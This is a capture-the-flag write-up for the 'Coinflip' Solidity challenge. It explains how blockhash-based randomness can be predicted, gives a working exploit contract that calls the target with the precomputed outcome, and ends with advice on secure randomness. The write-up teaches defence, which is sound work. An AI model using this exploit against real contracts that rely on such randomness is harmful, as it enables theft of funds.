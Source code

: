 ## Coinflip
Guess the correct outcome 10 times in a row


##### Things that might help
Use Remix to write the code and deploy it in the corresponding network See Remix Solidity IDE.
Setup a local truffle project to develop and deploy the attack contracts. See Truffle Framework.

#### Understanding the contract
1. State Variables
```js
uint256 public consecutiveWins;
uint256 lastHash;
uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
```
- There are three state variables: ``consecutiveWins``, ``lastHash``, ``FACTOR``
- consecutive wins is set to public so it is easily accesible

2. Constructor
```js
constructor() {
consecutiveWins = 0;
}
```
- When deployed, this sets ``consecutiveWins`` to 0

3. Functions
```js
function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
        revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
        consecutiveWins++;
        return true;
    } else {
        consecutiveWins = 0;
        return false;
    }
}
```
- The flip function takes a ``bool`` as a parameter (``_guess``) and returns a bool
- A uint256 variable ``blockValue`` is created inside the function which is calculated using the previous block number
- The function reverts if ``lastHash`` and ``blockValue`` are equivalent
- ``lastHash`` is replaced with ``blockValue``
- A uint256 variable ``conflip`` is determined by dividing ``blockValue`` by ``FACTOR``
- A boolean ``side`` is created comparing ``conflip`` to 1
    - If ``side`` and ``_guess`` are equivalent, then ``consecutiveWins`` is incremented and ``flip`` returns true
    - If ``side`` and ``_guess`` are not equivalent, then ``consecutiveWins`` is set to 0 and ``flip`` returns false

#### Solving
Solving this contract takes advantage of the fact that the contract uses ``blockNumber`` to create randomness. A second contract can be created that copies the logic from the original contract, making a call to the original contract after a solution is found
```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface ICoinFlip {
    function flip(bool _guess) external returns (bool);
}

contract CoinFlipExploit {
    uint256 constant FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    ICoinFlip public coinFlipContract;

    constructor(address _coinFlipAddress) {
        coinFlipContract = ICoinFlip(_coinFlipAddress);
    }

    function exploit() public {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        coinFlipContract.flip(side);
    }
}
```
I compiled this contract with remix and connected my metmask wallet with the injected provider option
To check the status after each flip, use the console:
```js
await contract.consecutiveWins()
```
Calling the ``exploit`` function will cause the ``words`` array inside the return object will increment on each flip
After 10 flips, hitting submit should complete the challenge

#### Summary
Generating random numbers in solidity can be tricky. There currently isn't a native way to generate them, and everything you use in smart contracts is publicly visible, including the local variables and state variables marked as private. Miners also have control over things like blockhashes, timestamps, and whether to include certain transactions - which allows them to bias these values in their favor.

To get cryptographically proven random numbers, you can use [Chainlink VRF](https://docs.chain.link/docs/get-a-random-number), which uses an oracle, the LINK token, and an on-chain contract to verify that the number is truly random.

Some other options include using Bitcoin block headers (verified through [BTC Relay](http://btcrelay.org/), [RANDAO](https://github.com/randao/randao), or [Oraclize](http://www.oraclize.it/)).